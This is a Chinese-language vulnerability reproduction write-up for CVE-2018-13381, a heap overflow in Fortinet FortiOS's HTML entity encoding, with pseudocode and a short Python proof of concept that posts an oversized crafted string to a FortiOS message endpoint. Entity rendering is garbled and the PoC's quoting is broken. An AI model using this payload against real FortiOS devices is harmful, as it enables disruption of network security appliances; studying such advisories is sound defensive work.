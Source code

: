 ```yaml
---
title: "（CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞"
id: zhfly2947
---
```


# （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

在编码HTML实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，`<`字符编码为 `<`，占用5个字节。如果遇到任何以`&#`开头的字符，例如`<`，服务器会认为这个token已经被编码了，并直接计算其长度。像这样：

```
c = token[idx];
if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
    cnt += 5;
else if(c == '&' && html[idx+1] == '#')
    cnt += len(strchr(html[idx], ';')-idx); 
```

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。

```
switch (c)
{
    case '<':
        memcpy(buf[counter], "&#60;", 5);
        counter += 4;
        break;
    case '>':
    // ...
    default:
        buf[counter] = c;
        break;
    counter++;
} 
```

如果我们输入恶意字符串如`&#<<<;`，`<`仍将编码成`<`，所以编码结果应该是`&#<<<;`！这比预期的6个字节长得多，从而导致堆溢出。
PoC：

```
import requests `data = {

‘title’: ‘x’,

‘msg’: ‘&#’ + ‘<’*(0x20000) + ‘;<’,

}

r = requests.post(‘[https://www.0-sec.org:4433/message](https://www.0-sec.org:4433/message)’, data=data)` 
```